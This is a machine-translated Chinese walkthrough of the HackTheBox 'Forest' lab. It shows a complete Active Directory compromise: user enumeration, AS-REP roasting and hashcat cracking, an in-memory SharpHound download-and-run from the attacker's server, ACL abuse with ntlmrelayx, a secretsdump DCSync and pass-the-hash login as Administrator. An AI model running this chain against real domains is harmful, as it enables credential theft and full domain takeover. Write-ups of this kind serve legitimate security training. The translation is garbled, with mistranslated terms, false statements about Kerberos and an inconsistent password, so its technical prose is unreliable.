# 黑客盒子——森林

> 原文：<https://infosecwriteups.com/hackthebox-forest-5a11553de1?source=collection_archive---------1----------------------->



[https://www.hackthebox.eu/home/machines/profile/212](https://www.hackthebox.eu/home/machines/profile/212)

# TL；速度三角形定位法(dead reckoning)

Forest 在我最喜欢的机器列表中。它向您展示了不同的工具，并提供了枚举、交互和利用通常与 Windows Active Directory 相关的服务的实际用法。它首先通过 RPC 枚举一个用户，并利用 Kerberos 预授权来获取用户的密码。然后，用户属于一个允许他将用户添加到“Windows Exchange 权限”的组，该组被允许执行 DCSync 攻击以获取管理员哈希。在这个过程中，我会试着用最短和最有效的方式解释一些概念，这些概念是你理解正在发生的事情所必需的。首先，我将向您介绍一下 Active Directory，因为这个盒子在某种程度上是 Active Directory 攻击的重点，所以如果您熟悉 AD 和 DC 的概念，这是值得的。

# 什么是 Active Directory 或 Active Directory 目录服务？

根据 [Windows 文档](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/virtual-dc/active-directory-domain-services-overview):

> 目录是存储网络上对象信息的分层结构。目录服务(如 Active Directory 域服务(AD DS ))提供了存储目录数据并使这些数据可供网络用户和管理员使用的方法。例如，AD DS **存储关于**用户账户**的信息**，如**姓名、**电话号码等等，而**使同一网络上的其他授权用户**能够访问这些信息。

当 AD DS 安装在 Windows 服务器上时，它通常会成为域控制器。[域控制器(DC)是运行某个版本的 Windows Server 操作系统并安装了活动目录域服务的服务器。](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc786438(v=ws.10)?redirectedfrom=MSDN)

# 侦察

我首先运行默认的 nmap 扫描，目标是枚举正在运行的服务及其版本:

```
# nmap -sV -sC -oA nmap/initial 10.10.10.161
```



初始扫描后，许多端口都是开放的。因为像这样的机器通常模拟一个域控制器，所以我感兴趣的服务是 Kerberos、RPC、LDAP 和 SMB，因为这些服务通常提供关于机器中的用户和组的大量信息。脚本结果还确定了以下内容:

*   计算机名:森林
*   域名:htb.local
*   林名:htb.local
*   FQDN: FOREST.htb.local

我还扫描了所有的 TCP 端口:

```
# nmap -p- -oA nmap/allports-tcp 10.10.10.161
```



除了初始扫描之外，我感兴趣的服务是 wsman(端口 5985)。这意味着我可以“像 SSH 一样”连接到机器并建立会话。我不会列举 DNS，因为域控制器通常打开 TCP 53，因为它们充当域中计算机的 DNS 服务器。

## 枚举— RPC(端口 135)

我使用 rpcclient 通过空会话连接到服务。



我调用命令 *enumdomusers* ，它列出了所有的域用户。



有趣的用户是 sebastien、lucinda、andy、mark 和 santi。帐户 Administrator、Guest 和 krbtgt 是 Windows 服务器中的默认帐户。我处理输出并将其保存到一个文件中:

```
# cat users.list | cut -d "[" -f 2 | cut -d "]" -f 1 > users.list
```

我还运行了 *enumdomgroups* 命令，发现了两个有趣的组:



## 枚举— LDAP(端口 389)

您可以通过 LDAP 查询域控制器。枚举 LDAP 的一个好方法是使用 LDAP 的 nmap 脚本。

```
# ls /usr/share/nmap/scripts/| grep ldap ldap-brute.nse
ldap-novell-getpass.nse
ldap-rootdse.nse
ldap-search.nse
```

在所有的脚本中，对我最有用的是 ldap-search:

```
# nmap -p 389 --script ldap-search 10.10.10.161
```



被调用命令的结果说明了该域的很多情况。让我印象深刻的是，很多 CN 都是关于微软的邮件服务 Exchange 的。

## 枚举— SMB(端口 445)

我检查是否可以使用空会话连接，并可能列出共享或文件。我使用 smbmap 来实现这一点:



我被拒绝了。我尝试了其他基本凭证，但它们不起作用。

# 初始访问—用户

## 砷焙烧

在尝试了很多东西之后，我在探索对 Kerberoast(端口 88)的攻击时遇到了 AS-REP 烘烤。几乎所有的攻击都需要域的有效用户名和密码，只有一种技术例外。

代理烘烤是对 Kerberos 的一种攻击，在这种攻击中，您可以请求由未启用预验证的用户加密的数据。预身份验证发生在 Kerberos 身份验证期间，是第一步。Kerberoast 是 Windows 除 NTLM 之外的身份验证机制。域控制器通常是 KDC。我建议您研究 Kerberos 是如何工作的，但这并不是解决这个问题所必需的。

如果启用了预身份验证:

*   用户将时间戳(AS-REQ)发送到域控制器，该时间戳由用户的散列加密。
*   域控制器使用用户的散列对其进行解密(因为 DC 拥有域中帐户的所有散列的副本),并检查时间戳是否在其时间的 5 分钟内。为了使 Kerberoast 身份验证正常工作，请求者和 DC 的时间差应该在 5 分钟以内。
*   如果是，它将发送一个 AS-REP，并继续进行 Kerberoast 认证的下一步，我将不在本文中讨论，因为它不需要解决这个问题。

如果预身份验证被禁用:

*   任何人都可以请求任何有效用户的信息，DC 会向您发送由用户密码加密的数据(AS-REP ),您可以离线破解。
*   请注意，默认情况下，预身份验证是启用的，但可以由用户帐户修改。

所以我在这里试图利用的是 Kerberos 的预认证部分，因此这种攻击被称为 AS-REP 烘烤(因为攻击的目的是破解 AS-REP)。然后，我可以使用 [Impacket](https://github.com/SecureAuthCorp/impacket) 的 GetNPUsers 为找到的用户名请求数据，希望某个帐户已经禁用了预授权。我请求:

```
/usr/share/doc/python3-impacket/examples/GetNPUsers.py htb.local/ -usersfile users.list
```

结果显示我能够获得一个 AS-REP。这意味着用户 svc-alfresco 禁用了 PREAUTH。



注意，每次运行 GetNPUsers 时，您将获得不同的 AS-REP(因为被请求的数据是不同的)，但是相同的密码将被破解。然后我可以使用 hashcat 破解用户的密码。

```
# hashcat -m 18200 hashfile wordlist
```

注意，mode 是 18200(如果您查找 hashcat 的示例散列，您会发现这是针对 Kerberos 5 AS-REP etype 23 类型的。“etype”我认为是加密类型，也就是 RC4-HMAC。



帐户 svc-alfresco 的密码是“s3r service”。

## 获取用户:

由于端口 5985 是开放的，我使用 [evil-winrm](https://github.com/Hackplayers/evil-winrm) 连接到机器。您可以使用 Powershell 的 Enter-PSSession 或其他 cmdlets 来完成此操作。我请求:

```
evil-winrm -u svc-alfresco -p 's3rvice' -i 10.10.10.161
```

凭证有效。



然后，我列出了 C:\users 目录下的所有文件，并发现我可以访问 user.txt:



# SVC-户外→管理员

然后，我运行 *whoami /all* 来检查我所属的组:



我发现我属于特权 IT 帐户和服务帐户组(提示是用户名以 svc 开头)。由于这是一个域控制器，我然后使用 [BloodHound](https://github.com/BloodHoundAD/BloodHound) (当我解决这台机器时，Bloodhound 3 尚未发布)来自动获取关于域的信息。

## 大猎犬

Bloodhound 是一个 GUI 工具，它使用 neo4j 作为其数据库管理。基本上，一个 ingestor 收集了关于域的大量信息，将它们存储在大量 json 文件中，由 BloodHound 为您处理。这篇文章不是关于如何经营猎犬。我首先使用 SharpHound 收集关于域的信息。

我设置了一个 python http 服务器来服务 SharpHound.ps1，并在机器的内存上运行它，然后运行 Invoke-BloodHound:

```
PS > iex(new-object net.webclient).downloadString('[http://myvpnip/SharpHound.ps1'](http://10.10.14.4/SharpHound.ps1')); Invoke-BloodHound -Collect
ionMethod All -Domain htb.local -LDAPUser svc-alfresco -LDAPPass s3rvice
```

收集的数据将存储在 ZIP 文件中:



然后，我使用 SMB 通过 impacket 中的 smbserver 脚本将文件传输到我的机器上:

```
smbserver.py -smb2support -username sifo -password sifo smb smb/
```

将它传输到我的本地计算机:



我只是将 ZIP 文件拖到 BloodHound，并选择查询“查找到域管理员的最短路径”:



我可以看到 svc-alfresco 是服务帐户的成员，这是特权 IT 帐户的成员。特权 IT 帐户是帐户操作员的成员。Account Operators 拥有对 Exchange Windows 权限的一般(即完全对象控制，即我可以添加用户)访问权限。Exchange Windows 权限具有对域 HTB.LOCAL 的 WriteDACL(这意味着，我可能会授予自己执行 DCSync 攻击的权限)。在阅读了有关我如何滥用向 Exchange Windows 权限添加用户的能力的更多信息后，我看到了这篇文章:

[](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/) [## 使用 Active Directory 中的 ACL 提升权限

### 由 Rindert Kramer 和 Dirk-jan Mollema 在内部渗透测试中研究和编写的介绍，它…

blog.fox-it.com](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/) 

## DCSync 攻击:

域控制器可以在一个域中共存。然后，域控制器通过与域中的其他域控制器同步来执行备份。如果用户可以在域上拥有复制-获取-更改-所有权限，这可能会被滥用。然后，我可以欺骗任何域控制器将其密码哈希数据库“同步”给我。

根据上面提到的文章，如果我们可以修改我们有权访问的用户的 ACL 以被授予复制权限，则可以执行称为“ACL 攻击”的第一种攻击。

我首先调用 Get-ADGroupMember 来检查“Exchange Windows 权限”组的成员:



为了能够执行 DCSync 攻击，我首先在“Exchange Windows 权限”组中添加一个用户。在这种情况下，我决定只添加 svc-alfresco。

```
PS > Add-AdGroupMember -Identity "Exchange Windows Permissions" -Members svc-alfresco
```

再次运行 Get-ADGroupMember，我发现 svc-alfresco 现在是一个成员:



然后，我将 ntlmrelay.py 从 Impacket 设置为中继到 LDAP，并将用户 svc-alfresco 升级为复制特权。

```
ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user svc-alfresco
```

由于我可以将用户放入“Exchange Windows Permissions”组，如果我通过访问 http://localhost/privexchange(任何目录都可以，这是随机的)并使用 svc-alfresco 的凭据进行身份验证，那么我就可以升级为域管理员(对域拥有控制权，这意味着我可以访问所有哈希，包括管理员哈希)。


既然 svc-alfresco 是域管理员，那么我可以使用 Impacket 的 secretsdump.py 来执行 DCSync 攻击，收集所有用户散列:

```
# secretsdump.py htb.local/svc-alfresco:s3rvice@10.10.10.161 -just-dc -outputfile secrets-dump.txt
```

我得到了哈希值:


现在我已经有了管理员散列，我使用 evil-winrm 与机器建立一个会话:

```
evil-winrm -u Administrator -i 10.10.10.161 -H '32693b11e6aa90eb43d32c72a07ceea6'
```

列出桌面中的文件，我现在可以读取 root.txt。



这就是我如何从黑客盒子中解决森林问题的！这是一个可怕的旅程，但绝对值得！感谢阅读！🍺

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)